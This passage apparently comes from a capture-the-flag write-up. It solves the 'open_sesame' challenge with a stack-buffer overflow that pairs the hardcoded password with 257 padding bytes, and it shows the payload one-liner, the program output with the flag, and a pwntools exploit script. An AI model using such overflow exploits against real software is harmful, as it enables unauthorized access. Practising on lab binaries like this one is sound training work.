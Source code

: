Extracts from our input as many characters as the length of the password, and then check that it is the same as `OpenSesame!!!`. Basically, it selects the first `13 characters` of our input and checks that they match the password.

### Crafting the Payload

The plan is simple, instead of sending 270 "A", we will send `OpenSesame!!! + (270 - 13) "A"`, which would look something like this:

```bash
$ python -c 'print("OpenSesame!!!" + "A" * (270 - 13))'
OpenSesame!!!AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
{: .nolineno }

```bash
$ ./open_sesame 
BEHOLD THE CAVE OF GOLD

What is the magic enchantment that opens the mouth of the cave?
OpenSesame!!!AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:
flag{share_the_post_if_you_liked}
```
{: .nolineno }

and there we have the flag!

### Exploit with pwntools

We can make this whole process a little more automatic by using pwntools with the following script.

```python
#!/usr/bin/python3

from pwn import *

p = process("./open_sesame")

buff = "A" * 256
secret_pass = "OpenSesame!!!"

p.recvuntil(b"What is the magic enchantment that opens the mouth of the cave?")
p.sendline(str.encode(secret_pass + buff))

print(p.recvall())
```

## Final Thoughts

An easy challenge since we had the support of the source code, but still very interesting to practice.